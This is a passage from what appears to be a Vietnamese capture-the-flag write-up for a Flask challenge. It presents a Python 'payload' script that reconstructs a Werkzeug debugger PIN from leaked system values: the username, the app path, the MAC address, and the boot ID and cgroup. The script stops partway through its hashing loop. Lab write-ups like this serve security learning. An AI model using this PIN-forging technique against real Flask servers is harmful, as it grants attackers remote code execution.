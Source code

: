 Nhờ sự khác biệt này.

Các user đều có dấu chấm thang theo mình hiểu là nó bị permission còn user root là all quyền 🙂

Thay đỗi và thành công 🙂

![Untitled](/assets/writeup/cookie/FlaskDev/Untitled%2020.png)

**PALOAD :**

```python
import hashlib
from itertools import chain

probably_public_bits = [
    "root", # /etc/passwd
    "flask.app",
    "Flask",
    "/usr/local/lib/python3.8/site-packages/flask/app.py",
]

private_bits = [
    "11820914965943",  # MAC -> int /sys/class/net/eth0/address
    "fe951ca9-6815-4da7-aec4-b5a04c351f34cri-containerd-c4da6254edaffec84c8d165a4286f05f82465ee33b88febc42f783d541306329.scope"
        # /proc/sys/kernel/random/boot_id + /proc/self/cgroup
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
```